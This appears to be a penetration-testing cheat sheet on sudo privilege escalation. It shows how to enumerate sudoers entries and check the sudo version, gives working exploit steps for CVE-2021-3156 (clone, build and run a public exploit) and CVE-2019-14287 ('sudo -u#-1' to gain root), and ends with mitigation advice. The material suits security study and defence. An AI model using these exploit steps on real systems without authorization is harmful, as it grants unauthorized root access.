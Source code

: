 ### **Overview**

- _sudo_ allows users to run commands with the privileges of another user (typically root).
- Configuration is managed in **/etc/sudoers**.
- Syntax for command restriction:
```bash
cry0l1t3 ALL=(ALL) /usr/bin/id
```

---

### **Check Sudoers Entries**
```bash
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

---

### **Sudo Version Check**
```bash
sudo -V | head -n1
# Sudo version 1.8.31
```

---

### **Vulnerability: CVE-2021-3156 (Heap Buffer Overflow)**

- Affects:
    
    - Sudo versions 1.8.31 (Ubuntu 20.04)
    - 1.8.27 (Debian 10)
    - 1.9.2 (Fedora 33)

- Exploitation steps:
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich
```

+ Run exploit for specific OS version:
```bash
./sudo-hax-me-a-sandwich 1
```

---

### **Vulnerability: CVE-2019-14287 (Sudo Policy Bypass)**

- Affects: All sudo versions < **1.8.28**
- Prerequisite: User allowed to run a command as _any_ user:
```bash
cry0l1t3 ALL=(ALL) /usr/bin/id
```

- Exploit with UID -1 (interpreted as UID 0):
```bash
sudo -u#-1 id
# uid=0(root)
```

---

### **Mitigation**

- Upgrade sudo to latest version.
- Audit `/etc/sudoers` entries to avoid overly broad user permissions.
- Avoid allowing sudo access to commands with wildcard user IDs.

